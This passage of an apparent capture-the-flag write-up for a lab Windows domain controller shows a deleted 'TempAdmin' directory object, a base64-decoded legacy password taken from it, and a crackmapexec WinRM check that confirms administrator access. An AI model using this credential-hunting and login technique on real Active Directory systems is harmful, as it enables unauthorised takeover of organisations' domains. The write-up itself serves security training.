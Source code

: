```
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM

```

Immediately `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz` jumps out. It decodes to `baCT3r1aN00dles`:

```

root@kali# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles

```

### WinRM

This password works for the main administrator account:

```

root@kali# crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\administrator:baCT3r1aN00dles (Pwn3d!)

```

I can get a WinRM session as administrator:
